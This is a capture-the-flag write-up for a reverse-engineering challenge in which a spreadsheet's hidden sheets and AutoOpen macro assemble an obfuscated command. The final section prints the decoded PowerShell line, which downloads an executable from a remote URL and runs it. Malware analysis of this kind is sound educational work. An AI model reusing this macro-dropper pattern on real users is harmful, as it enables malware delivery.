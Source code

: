 # Fruit Deals - Reverse Engineering Writeup

## Description:
![](screenshots/problem.png)

I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 
![](screenshots/Step1.1.png)


After Enabling the hidden sheets we are greeted with this awful mess.
![](screenshots/Step1.2.png)
![](screenshots/Step1.3.png)

### Step 2:
In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

![](screenshots/Step2.png)

### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out which was ```Invok``` ```http``` ```K.Dow``` and ```nload```

![](screenshots/Step3.1.png)
![](screenshots/Step3.2.png)

### Step 4:

To read the output, I just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
![](screenshots/Step4.png)

After opening up the variable viewer, I can see the strings and their values, which shows the script to be executed and the flag is appended to the $CNTA variable. 
![](screenshots/Step4.1.png)


### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}

